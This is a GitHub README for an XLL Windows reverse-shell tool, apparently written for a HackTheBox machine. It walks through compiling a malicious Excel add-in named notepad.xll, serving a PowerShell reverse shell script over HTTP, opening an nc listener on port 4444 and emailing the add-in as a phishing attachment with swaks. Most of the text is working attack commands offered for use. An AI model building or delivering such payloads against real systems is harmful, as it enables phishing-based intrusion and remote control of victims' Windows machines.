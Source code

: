 # xll_windows_reverse_shell
xll windows reverse shell



In your Attacker (Kali) machine:
```
git clone https://github.com/c0d3cr4f73r/xll_windows_reverse_shell.git
```
1. Update the `revsh.ps1`

```
python3 -m http.server 9999
```

In your Attacker (Windows) machine:

1. Move `notpadXLL.c` to your windows attacker machine and update the Update the `notpadXLL.c` accordingly.
3. Open `x64 Native Tools Command Prompt for VS 2022`
4. run below command to genarte `notepad.xll`
```
cl.exe /LD notepadXLL.c /link /out:notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/fa052809-575a-480f-be6d-0ba6b7e2dde0)


5. move this `notepad.xll` to your Kali machine
6. download `swaks`
```
 curl -O https://jetmore.org/john/code/swaks/files/swaks-20240103.0/swaks
```

7. configure nc listner

```
nc -nlvp 4444
```

8. Use `swaks` to send an email with notepad.xll attached:
```
./swaks --to accounts@axlle.htb --from ihatethisbox@fuckhtb.htb --server 10.10.11.21 --port 25 --header "Subject: test" --body "test" --attach @notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/e0c783a7-47ba-4a05-95aa-8e8c29ce0791)


